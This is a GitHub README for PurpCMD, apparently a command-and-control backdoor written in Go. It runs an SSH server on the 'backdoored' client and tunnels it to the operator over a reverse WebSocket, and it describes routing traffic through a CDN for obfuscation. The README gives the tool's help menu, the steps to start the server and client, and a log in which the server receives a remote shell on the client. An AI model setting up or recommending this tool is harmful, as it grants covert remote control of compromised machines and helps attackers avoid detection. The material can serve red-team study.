 ## !!!The following README data refers to the version found under "old" branch. Use "old" branch!!!

The tool is being refactored to become a better c2, with support for multiple connections, scripting and more. If you want to use the regular version, compile the "old" branch. The "main" is instable.

# PurpCMD

For the current version the process mey be killed from client (backdoored) side due to error.

Purpcmd operates by initiating a simple SSH server on the client side. Leveraging SSH has many improved features to work with remote terminals, such as enhanced interaction quality, window resizing, full duplex communications, and more. This type of approach tends to work better than using reverse shell, that use system features, synchronized sockets and IO, it will have limited capabilities. Purpcmd employs a reverse WebSocket connection to seamlessly synchronize the SSH connection with the server.

The communication is secure and very malleable. It can be channeled through Content Delivery Network (CDN) to enhance obfuscation and other security measures.

![img1](img/img1.png)


### Help Menu

```
Server usage: purpcmd server [options] ...
	-k configures the path to the private key.
	By default an embed key pair is used to authenticate the
	connection.
	Use "-k /path/to/id_rsa".

Client usage: purpcmd client [options] ...
	-ua defines the User-Agent HTTP header to use
	during the request.

	-p must be used to set the path to a public key.
	By default an embed key pair is used to authenticate the
	connection. If the server is using a custom private key,
	this option must be used to specify the pair.
	Use "-p /path/to/id_rsa.pub".

	-ps allows passing the public key right from the command
	line.
	Use "-ps 'ssh-rsa AAAAB3NzaC'".
	
Global Options:
	-a is the address to listen on or connect to.
	Use "-a 127.0.0.1:8080".
		
	-uri configures the URI where to connect or to receive 
	the websocket connection.
	Use "-uri /assets".

```

### 1. Start the server

```
go run . server
2024/02/17 01:08:57 Listening on ws://0.0.0.0:8080/
```

### 2. Execute the client

```
go run . client -a 0.0.0.0:8080
2024/02/17 01:10:32 Connecting to ws://0.0.0.0:8080/
2024/02/17 01:10:32 Key O+XvBDAEHzyN9s78Iy6iegk3vWT7hzQZsErg/2Y+Ehg= found.
2024/02/17 01:10:32 Client got shell
```

### 3. Use the server new shell

```
╰─$ go run . server
2024/02/17 01:08:57 Listening on ws://0.0.0.0:8080/
2024/02/17 01:10:32 Proxy connected 0.0.0.0:8080
Setting up STDIN
Setting up STDOUT
Setting up STDERR
call shell
farinap@xyz:~/go/src/PurpleCommand$ ls
LICENSE  README.md  agent  go.mod  go.sum  img  main.go  server  utils
farinap@xyz:~/go/src/PurpleCommand$
```
